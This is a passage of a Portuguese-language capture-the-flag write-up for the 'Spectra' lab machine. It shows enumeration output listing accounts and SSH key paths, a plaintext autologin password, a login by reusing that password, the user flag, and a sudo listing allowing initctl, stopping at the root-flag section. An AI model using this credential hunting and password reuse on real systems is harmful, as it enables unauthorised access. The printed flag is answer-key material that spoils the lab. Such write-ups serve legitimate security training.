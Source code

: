   ```plaintext
  [+] Users with console
  chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
  katie:x:20156:20157::/home/katie:/bin/bash
  root:x:0:0:root:/root:/bin/bash
  
  uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
  uid=1001(chronos-access) gid=1001(chronos-access) groups=1001(chronos-access)
  ```

- MySQL  Ver 14.14 Distrib 5.7.20-19, for Linux (x86_64) using  6.3

- Possíveis chaves de SSH para máquina

  ```plaintext
  /usr/share/chromeos-ssh-config/keys/authorized_keys
  /usr/share/chromeos-ssh-config/keys/id_rsa
  /usr/share/chromeos-ssh-config/keys/id_rsa.pub
  ```

- Arquivos passwd incomuns, sendo um deles para **autologin** e com a senha **SummerHereWeCome!!** presente

  ```plaintext
  [+] Searching uncommon passwd files (splunk)
  passwd file: /etc/autologin/passwd
  passwd file: /etc/pam.d/passwd
  passwd file: /usr/share/baselayout/passwd
  
  /etc/autologin/passwd
  -rw-r--r-- 1 root root 19 Feb  3 16:43 /etc/autologin/passwd
  SummerHereWeCome!!
  ```

- Arquivo `user.txt` no home path da usuária **katie**, enumerado manualmente no que poderia ser visto no diretório de cada um dos usuários logados

Uma vez que encontramos algumas senhas, um usuário inclusive que já tínhamos conhecimento vide enumeração via HTTP, decidi testá-las para os usuários `katie` e `chronos`, tendo sucesso com a seguinte combinação: **katie:SummerHereWeCome!!**

Com acesso neste perfil realizado leitura da flag presente em seu home directory

```bash
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
katie@spectra ~ $ cat user.txt
e89d27fe195e9114ffa72ba8913a6130
katie@spectra ~ $
```

## Root flag

já que temos a senha da usuária katie, a primeira coisa a fazer, já que temos sua senha, é verificar se ela possui algum privilégio de sudo, o qual retornou a seguinte entrada

```bash
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
katie@spectra ~ $
```
